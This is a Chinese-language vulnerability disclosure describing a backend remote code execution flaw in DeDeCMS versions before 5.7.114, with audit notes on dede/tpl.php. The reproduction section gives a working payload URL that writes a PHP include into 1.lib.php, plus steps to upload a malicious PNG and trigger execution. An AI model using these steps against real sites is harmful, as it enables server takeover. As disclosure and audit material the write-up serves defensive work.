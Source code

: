 # ***\*漏洞情况\****

上海卓卓网络科技有限公司，后台存在RCE漏洞，攻击者可以利用此漏洞获取服务器权限

# ***\*影响版本\****

此漏洞涉及版本为DeDeCMS<5.7.114版本

# ***\*审计过程\****

在官网下载好源码使用

![image](https://github.com/tianqing191/test-/assets/114899974/4d1cebf1-71ef-4618-903e-34fe83047633)

## **漏洞涉及文件** 

 dede/tpl.php

![image](https://github.com/tianqing191/test-/assets/114899974/c1c6ebb4-ca78-4f27-a052-5df93bb1b48e)



在代码当中可以看到fwrite写入函数，其中第一个变量fp指定了一个文件为一个变量为truefile 其中truefile 是可控的

![image](https://github.com/tianqing191/test-/assets/114899974/f8528c93-c639-48a2-8caa-35ace4a947b6)


![image](https://github.com/tianqing191/test-/assets/114899974/08810b68-20ff-4101-a870-af31bba0fe49)


 并且 content 变量也是可控的

![image](https://github.com/tianqing191/test-/assets/114899974/fecd2f63-fee6-424a-a63f-17b702f26d76)


到这里大致的思路就明白了，使用fwrite函数进行了文件写入，写入文件为

1.lib.php,方便我们写入一句话，然后写入内容为content 变量，这

个变量我们可控，开始尝试写入一下

## **漏洞复现**

登陆后台

![image](https://github.com/tianqing191/test-/assets/114899974/df20e122-46a7-46fa-b8a8-dc25234b9268)


 

url/dede/tpl.php?filename=1.lib.php&action=savetagfile&content=<?=include_once("../../1.png");&token=[你的token]

 

![image](https://github.com/tianqing191/test-/assets/114899974/ca1b03c3-c1ae-4cb1-bad3-ff5834733a61)


写入成功文件名为1.lib.php 

![image](https://github.com/tianqing191/test-/assets/114899974/d493b81c-1a43-4e12-a3b3-40151e65de24)


写入的内容为

![image](https://github.com/tianqing191/test-/assets/114899974/a952c523-7d6e-452c-a76f-a6ebffc5892f)


其中变量content 存在过滤一些危险函数

![image](https://github.com/tianqing191/test-/assets/114899974/0c687e2c-c1f9-494a-ae8d-e7dcd5c76d4d)


通过写入php包含的函数，在进行上传一个带有恶意代码的png图片进行RCE

上传1.png图片 url/dede/file_manage_main.php

![image](https://github.com/tianqing191/test-/assets/114899974/ff2d8bc1-3d96-42d2-ad73-defdcf64f817)

访问1.lib.php文件 url/include/taglib/1.lib.php

![image](https://github.com/tianqing191/test-/assets/114899974/c8244720-f43f-4910-bfc3-e479df4f89e0)


成功RCE

 

 
